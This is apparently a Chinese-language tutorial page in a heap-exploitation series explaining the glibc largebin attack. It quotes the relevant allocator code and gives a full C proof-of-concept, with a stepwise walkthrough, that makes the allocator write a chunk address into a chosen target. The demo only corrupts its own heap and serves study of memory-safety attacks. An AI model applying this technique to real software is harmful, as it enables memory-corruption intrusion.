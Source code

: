 ```yaml
---
title: "Largebin Attack"
date: 2025-3-27
series: ["Heap Exploitation"]
series_order: 12
---
```


|||
|-|-|
|版本|latest|
|效果|使目標被修改為某個chunk|

## unsortedbin放chunk回largebin的情況

### 如果size為比bin鍊最後一塊(同時也是最小塊)還小，就直接插入尾端

```c
if ((unsigned long)(size) < (unsigned long)chunksize_nomask(bck->bk))
{
    fwd = bck;
    bck = bck->bk;

    victim->fd_nextsize = fwd->fd;
    victim->bk_nextsize = fwd->fd->bk_nextsize;
    fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
}
```

### 主要攻擊點

```c
fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
```

達成以下條件，就能使`target`被寫入`victim`:  

- 我們可以控制`victim->bk_nextsize`為`target - 0x20`
- 接下來放入的chunk是比該bin鍊的所有chunk還小

## exploit

### 完整腳本

```c
#include<stdio.h>
#include<stdlib.h>
#include<assert.h>

int main(){
    /*Disable IO buffering to prevent stream from interfering with heap*/
    setvbuf(stdin,NULL,_IONBF,0);
    setvbuf(stdout,NULL,_IONBF,0);
    setvbuf(stderr,NULL,_IONBF,0);


    size_t target = 0xdeadbeef;
    size_t *p1 = malloc(0x428);
    size_t *g1 = malloc(0x18);
    size_t *p2 = malloc(0x418);
    size_t *g2 = malloc(0x18);

    free(p1);
    size_t *g3 = malloc(0x438);

    free(p2);

    p1[3] = (size_t)((&target)-4);

    size_t *g4 = malloc(0x438);

    printf("Target (%p) : %p\n",&target,(size_t*)target);
    assert((size_t)(p2-2) == target);

    return 0;
}
```

### 先宣告兩個大chunk

```c
int main(){
    /*Disable IO buffering to prevent stream from interfering with heap*/
    setvbuf(stdin,NULL,_IONBF,0);
    setvbuf(stdout,NULL,_IONBF,0);
    setvbuf(stderr,NULL,_IONBF,0);


    size_t target = 0xdeadbeef;
    size_t *p1 = malloc(0x428);
    size_t *g1 = malloc(0x18);
    size_t *p2 = malloc(0x418);
    size_t *g2 = malloc(0x18);
```

### 把其中一個丟進largebin

```c
    free(p1);
    size_t *g3 = malloc(0x438);
```

![alt text](image.png)

### 現在第二個chunk在unsortedbin

```c
    free(p2);
```

![alt text](image-1.png)

### 修改第一個chunk的bk_nextsize

```c
    p1[3] = (size_t)((&target)-4);
```

### 把第二個chunk從unsortedbin丟回largebin

```c
    size_t *g4 = malloc(0x438);
```

![alt text](image-2.png)

![alt text](image-3.png)
